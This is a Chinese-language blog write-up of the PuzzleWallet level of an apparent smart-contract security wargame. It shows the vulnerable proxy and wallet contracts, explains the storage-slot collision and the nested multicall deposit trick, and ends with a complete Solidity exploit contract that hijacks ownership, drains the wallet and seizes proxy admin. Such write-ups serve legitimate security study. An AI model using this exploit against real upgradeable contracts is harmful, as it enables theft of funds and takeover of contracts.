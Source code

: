```yaml
---
title: 'proxy-1'
date: 2022-12-20 14:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

#### 第二十四关  PuzzleWallet 思路与POC

#### 目标: 几个精明的程序员构建了一个只有管理员可更新逻辑的钱包合约,劫持此钱包并成为代理合约的管理员

##### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";
//puzzle代理合约
contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }
 //申请成为管理员函数,无任何限制
    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}
//puzzle逻辑实现合约
contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    
    mapping(address => bool) public whitelisted; //白名单map
    mapping(address => uint256) public balances;//地址->余额map
    
//初始化钱包,要求maxBalance变量为0
    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }
    //白名单限制  
    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }
   //设置钱包最大余额msg.sender必须在白名单上
    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }
 //只有owner能新增白名单地址
    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }
//只有白名单上的用户才能往钱包里冲钱
    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] += msg.value;
    }
//用户余额转出 没有重入漏洞
    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted    {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }
//同时调用多个逻辑合约的函数,但是deposit函数只允许被调用一次
    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        //循环取出函数选择器
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
              //注意一点 require判断是表达式结果为false的时候触发
               require(!depositCalled, "Deposit can only be called once");
              // 防止用户重复存入token
               depositCalled = true;
            }
       //call函数没防止回调,应该if(selector == this.multicall.selector){revert}
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
/*
发现问题了嘛(逻辑漏洞):合约创建者似乎忘记了代理合约与逻辑实现合约的存储槽是共享的
address public pendingAdmin; slot0 <-   address public owner; slot0
address public admin;  slot1 <-   uint256 public maxBalance; slot1

poc思路:
代理合约上的pendingAdmin变量可以没有任何限制的修改,但是它对应的是逻辑合约的owner(禁止修改)
替换了owner变量之后我们就劫持了wallet合约!!
之后仅需要修改 maxBalance变量即可对于修改代理合约的admin(flag)

*/
```

#####  所以我们得出以下流程:
##### 1.PuzzleProxy.proposeNewAdmin() -> PuzzleWallet.addToWhitelist(you address)

##### 执行完1之后:

##### 此时我们成功劫持了逻辑合约,接下来就是想办法将合约的余额全部提现,然后才能调用setMaxBalance修改admin 

##### 那么如何将合约的余额全部提现呢,当前合约余额是0.001ETH.我们此时成为了白名单用户余额是0.

##### 问题关键在于需要我们的余额大于合约余额或者保持跟合约余额保持一致,如何做到看multicall函数.

##### 此时multicall函数允许我们调用deposit函数一次, 合约余额:0.002ETH user:0.001ETH.

##### 那么如果我们构建calldata:

##### {

##### 使其先调用deposit一次{0.001ETH} 

##### 然后回调multicall从而刷新depositCalled值,然后再调用deposit呢?{两次调用用户余额0.002ETH}

##### }

##### 由于以上括起来的操作都是在一次交易中完成的,所以实际上我们仅发送了0.001ETH到合约

##### 所以就得到了 合约余额:0.002ETH user:0.003ETH.

2. ##### PuzzleWallet.execute(you address ,合约所有余额) -> PuzzleWallet.setMaxBalance(uint256(you address))

  ##### 完成 :ok_hand:

#### 最终POC:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./Vulnerability/PuzzleWallet.sol";

contract hackWallet {
    PuzzleProxy public px = PuzzleProxy(payable(0x12E9E06d6AaA6941a0dd49C6D21F01D6c0f0CbeA));

    PuzzleWallet public wallet = PuzzleWallet(payable(0x12E9E06d6AaA6941a0dd49C6D21F01D6c0f0CbeA));

    function attack() public {
        //构造calldata
        bytes[] memory depositSelector = new bytes[](1);
        depositSelector[0] = abi.encodeWithSelector(wallet.deposit.selector);

        bytes[] memory nestedMulticall = new bytes[](2);
        nestedMulticall[0] = abi.encodeWithSelector(wallet.deposit.selector);
        nestedMulticall[1] = abi.encodeWithSelector(wallet.multicall.selector, depositSelector);

        //替换wallet合约中的owner
        px.proposeNewAdmin(msg.sender);
        wallet.addToWhitelist(msg.sender);

        //构造calldata使用户余额大于合约余额
        wallet.multicall{value: 0.001 ether}(nestedMulticall);
        //提现合约所有余额并且改变solt1 ,也就是改变proxy合约中的admin
        wallet.execute(msg.sender, 0.002 ether, "");
        wallet.setMaxBalance(uint256(uint160(msg.sender)));
    }
}

```

